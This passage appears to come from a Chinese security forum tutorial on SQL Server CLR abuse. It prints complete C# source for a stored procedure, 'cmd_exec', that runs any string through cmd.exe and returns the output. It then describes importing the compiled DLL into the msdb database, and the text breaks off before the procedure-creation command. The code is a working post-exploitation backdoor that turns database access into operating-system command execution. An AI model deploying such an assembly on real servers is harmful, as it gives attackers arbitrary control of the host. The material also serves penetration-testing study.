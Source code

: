 创建c#类库  
![1704861360677.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-a5ae1816a4322df28446f9db202e9dd8fb7bea1a.png)  
添加代码并且生成DLL

```php
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using Microsoft.SqlServer.Server;
using System.IO;
using System.Diagnostics;
using System.Text;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmd_exec(SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        // Create the record and specify the metadata for the columns.
        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));

        // Mark the beginning of the result set.
        SqlContext.Pipe.SendResultsStart(record);

        // Set values for each column in the row
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());

        // Send the row back to the client.
        SqlContext.Pipe.SendResultsRow(record);

        // Mark the end of the result set.
        SqlContext.Pipe.SendResultsEnd();

        proc.WaitForExit();
        proc.Close();
    }
};
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-a8a401959406481c4a801dce9c559da96bc2706c.png)  
在msdb数据库下新建程序集，导入生成的dll点击确定  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-b42d694a1ddc56b74e425e5d0b97071cc64943cf.png)  
成功之后可以在程序集下看到导入的程序集  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-08f76cef28e147c99d6b335ba355708a0db15730.png)  
使用以下命令创建过程
